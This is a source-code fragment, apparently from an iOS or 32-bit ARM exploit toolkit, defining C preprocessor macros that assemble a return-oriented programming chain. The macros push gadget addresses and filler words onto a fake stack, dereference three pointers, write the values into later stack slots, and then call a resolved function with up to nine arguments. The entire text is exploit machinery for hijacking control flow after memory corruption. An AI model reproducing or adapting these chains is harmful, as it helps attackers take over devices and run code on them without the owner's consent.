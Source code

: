 #define RopCallFunction9Deref3(push, name, repl_arg_0,  read_ptr_0, repl_arg_1, read_ptr_1, repl_arg_2, read_ptr_2, a, b, c, d, e, f, g, h, i) RopCallFunctionPointer9Deref3(push,[dy solveSymbol:name], repl_arg_0,read_ptr_0,repl_arg_1,read_ptr_1, repl_arg_2, read_ptr_2,a,b,c,d,e,f,g,h,i)
    
#define RopCallFunctionPointer9Deref3(push, ptr, repl_arg_0, read_ptr_0, repl_arg_1, read_ptr_1, repl_arg_2, read_ptr_2, a, b, c, d, e, f, g, h, i) \
RopFixupLR(push);\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_2 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_2 < 4) ? (4*(28 + repl_arg_2 + 6)) : (4*(28 + repl_arg_2 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_1 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_1 < 4) ? (4*(14 + repl_arg_1 + 6)) : (4*(14 + repl_arg_1 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_0 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_0 < 4) ? (4*(repl_arg_0 + 6)) : (4*(repl_arg_0 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r2r3r5r7pc; \
push = (uint32_t)a; \
push = (uint32_t)b; \
push = (uint32_t)c; \
push = (uint32_t)d; \
push = (uint32_t)0x45454545; \
push = (uint32_t)(m_m_scratch); \
assert((uint32_t)ptr);\
push = (uint32_t)ptr;\